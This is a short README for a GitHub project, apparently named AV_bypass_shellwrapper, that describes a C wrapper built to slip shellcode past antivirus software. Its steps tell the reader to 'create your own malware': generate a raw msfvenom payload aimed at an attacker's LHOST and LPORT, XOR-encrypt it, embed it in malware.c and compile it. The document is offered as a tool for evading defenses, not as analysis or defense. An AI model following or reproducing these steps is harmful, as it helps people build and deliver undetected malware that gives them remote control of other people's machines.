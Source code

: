 # AV_bypass_shellwrapper
Shell wrapper script written in C language to bypass AVs

* To  create you own malware create a raw msfvenom payload
```
msfvenom -p <payload_type> LHOST=<lhost> LPORT=<lport> -f raw -o shellcode.bin
````

* XOR encrypt the payload
```
xor.py shellcode.bin
```

* Add the Encrpted shellcode to variable c in the malware.c file

* Compile the code using Visual Studio IDE
